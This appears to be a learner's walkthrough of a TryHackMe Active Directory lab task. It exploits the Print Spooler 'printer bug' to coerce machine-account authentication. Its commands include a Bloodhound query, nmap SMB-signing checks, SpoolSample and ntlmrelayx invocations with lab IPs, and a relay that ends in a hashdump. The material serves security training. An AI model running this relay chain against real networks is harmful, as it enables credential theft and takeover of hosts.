







Automatic Relays
Exploiting Automatic Relays
In this task we will take a look at some automated relays. Authentication attempts are constantly flying across the network, and as shown in the Breaching AD room, if we are lucky, we can intercept some of these challenges to gain access. But what if we don't like to wait? What if we can coerce authentication to occur?
Although we already have privileged access to THMSERVER1, we could be in a position where we did not have access to a constrained delegation exploit. This is another excellent attack that can be performed to gain privileged access to hosts.
Machine Accounts
All Windows hosts have a machine account. Essentially, this is the user account associated with the machine. Unless someone tampered with the account of the host, the passwords of these accounts are uncrackable. By default, they are 120 characters (UTF16) long and are automatically rotated every 30 days.
In AD, these machine accounts are used quite a bit in different services. Different domain controllers use their machine accounts to synchronise AD updates and changes. When you request a certificate on behalf of the host you are working on, the machine account of that host is used for authentication to the AD Certificate Service.
There is an exceptional case in AD, where one machine has admin rights over another machine. Essentially in the AD configuration, administrative permissions over a host have been granted to another host. Again, this is expected functionality such as domain controllers or SQL clusters that must be synchronised. However, these instances provide a very interesting attack vector for coercing authentication.
We first need to identify cases where a machine account has administrative access over another machine. We can use Bloodhound for this, but it means we will have to write some custom cypher queries. Click the "Create Custom Query" in the Analysis tab in Bloodhound:
We need the Following Query:
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p

The Printer Bug
Seriously, when this was reported, Microsoft responded that this was a feature. The printer bug is a "feature" of the MS-RPRN protocol (PrintSystem Remote Protocol), which allows a domain user to remotely force a target host running the Print Spooler service to authenticate to an arbitrary IP address. There have been a few of these bugs in recent years: Spooler, PetitPotam, PrintNightmare. Microsoft claims that the only bug is that some of these did not require AD credentials at all, but this issue has been resolved through security patches.
Therefore, to exploit this, apart from machine account administrative privileges, we also need to meet the following four conditions :
1. A valid set of AD account credentials.
2. Network connectivity to the target's SMB service.
3. The target host must be running the Print Spooler service.
4. The hosts must not have SMB signing enforced.
Condition 1 and 2 have been met already. The only two we need to ensure works are conditions 3 and 4.
Checking Print Spooler Service:
Theoritically, the following should work. However, i got access denied when tried from THMWRK1 system with both normal user & tier 2 admin user.
GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc

The output from the cmdlet verifies that the service is running. If we get an access denied error,
you could perhaps attempt the PowerShell command:
Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc
However, Microsoft has been cracking down viewing these ports from the network's perspective. If both give you an error, you may just need to take a leap of faith. Thus, condition three has been met.

I did not get sucess with both the commands. Lets assume print spooler is running & proceed.
Checking SMB signing:
In order to relay the coerced authentication attempt, SMB signing should not be enforced. It should be noted that there is a difference between SMB signing being allowed and SMB signing being enforced. Since some legacy systems do not support SMB signing, by default, the configuration of SMB is that signing is allowed but not enforced, meaning that it will only be used if supported. Since we will be hosting a malicious SMB server, we can ensure our server does not support signing, forcing the target not to sign the SMB authentication attempt.
To verify that THMSERVER1 and THMSERVER2 do not have SMB signing enforced, we can use Nmap on our AttackBox (Using NSE - smb2-security-mode):
nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc

Thus, we confirm SMB signing is not Enforced. All 4 Requirements were met. We proceed to the exploit.
Exploiting Authentication Relays
Note: This attack can be unstable. Abusing the Print Spooler service may cause it to crash, and a callback is not always guaranteed. For this reason, the previous task already provided you with the permissions required to continue. However, understanding authentication relays and how to force them is essential for AD exploitation. As such, the steps to perform such an attack are provided below. You can decide to give it a go, but a callback is not guaranteed. If it does not work, move on to the next task and perhaps explore this again at the end of your room journey.
We will be using SpoolSample to exploit the authentication relay. It is a C# exploit but has already been compiled for you and stored in the C:\Tools\ directory on THMWRK1. We will use Spoolsample.exe to coerce THMSERVER2 to authenticate to us on our AttackBox and then Impacket's ntlmrelayx.py to relay the authentication attempt THMSERVER1. Note that if you are using your own VM, you will need to make sure you have the updated version of Impacket that supports SMBv2.
References::
https://github.com/leechristensen/SpoolSample
https://github.com/SecureAuthCorp/impacket
The first step is to set up the NTLM relay. On our AttackBox, we can use the following:
python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug
Our Case:
impacket-ntlmrelayx -smb2support -t smb://10.200.79.201 -c 'whoami /all' -debug

If we specify the hostname of THMSERVER1 instead of the IP, the host could request that we use Kerberos authentication instead of NTLM. Hence we should specify the IP instead. With the relay listening, we can now coerce THMSERVER2 to authenticate to us. In an SSH terminal on THMWRK1, execute the following:
C:\Tools\>SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"
Our Case:
.\SpoolSample.exe THMSERVER2.za.tryhackme.loc 10.50.78.95

If all goes well, you should have received an authentication attempt and a relay to THMSERVER1.
Clipped Output of ntlmrelay:

This output resembles what would happen if you used the -c 'whoami /all' command. However by specifying no command, you should now have performed a hashdump. These credentials can now be used to get a shell on the host!